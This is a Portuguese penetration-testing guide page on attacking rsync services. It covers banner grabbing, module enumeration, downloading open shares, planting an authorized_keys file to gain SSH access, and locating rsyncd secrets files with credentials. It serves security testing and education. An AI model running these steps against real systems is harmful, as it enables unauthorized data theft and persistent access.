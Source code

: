 ## **Informação Básica**

> **rsync** é um utilitário para transferir e sincronizar arquivos de forma eficiente entre um computador e um disco rígido externo e entre computadores em rede, comparando os horários de modificação e os tamanhos dos arquivos. É comumente encontrado em sistemas operacionais semelhantes ao Unix. O algoritmo rsync é um tipo de codificação delta e é usado para minimizar o uso da rede. O Zlib pode ser usado para compressão adicional de dados e o SSH ou o stunnel podem ser usados para segurança.

De [wikipedia](https://en.wikipedia.org/wiki/Rsync).

**Porta padrão:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeração

### Banner e Comunicação Manual
```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Enumerar pastas compartilhadas**

Um módulo rsync é essencialmente um compartilhamento de diretório. Esses módulos podem ser protegidos por senha opcionalmente. Esta opção lista os módulos disponíveis e, opcionalmente, determina se o módulo requer uma senha para acessar:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Observe que pode ser configurado um nome compartilhado para não ser listado. Então pode haver algo **oculto**.\
Observe que pode haver alguns **nomes compartilhados** sendo listados onde você precisa de algumas (diferentes) **credenciais** para acessar. Então, nem sempre todos os nomes listados vão ser acessíveis e você vai perceber isso se receber uma mensagem de _**"Acesso Negado"**_ ao tentar acessar alguns deles.

### [**Força bruta**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Rsync Manual

Depois de ter a **lista de módulos**, você tem algumas opções diferentes dependendo das ações que deseja realizar e se a autenticação é necessária. **Se a autenticação não for necessária**, você pode **listar** uma pasta compartilhada:
```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```
E **copie** todos os **arquivos** para sua máquina local através do seguinte comando:
```bash
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Isso **transfere recursivamente todos os arquivos do diretório** `<shared_name>` na máquina `<IP>` para o diretório `./rsync_shared` na máquina local. Os arquivos são transferidos no modo "arquivo", que garante que links simbólicos, dispositivos, atributos, permissões, propriedades, etc. sejam preservados na transferência.

Se você **tiver credenciais**, pode **listar/fazer download** de um **nome compartilhado** usando (a senha será solicitada):
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
Também é possível **fazer upload** de algum **conteúdo** utilizando o rsync (por exemplo, neste caso podemos fazer upload de um arquivo _**authorized\_keys**_ para obter acesso à máquina):
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Encontre o arquivo de configuração do rsyncd:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Dentro do arquivo de configuração, às vezes você pode encontrar o parâmetro _secrets file = /path/to/file_ e este arquivo pode conter nomes de usuário e senhas permitidos para autenticar no rsyncd.
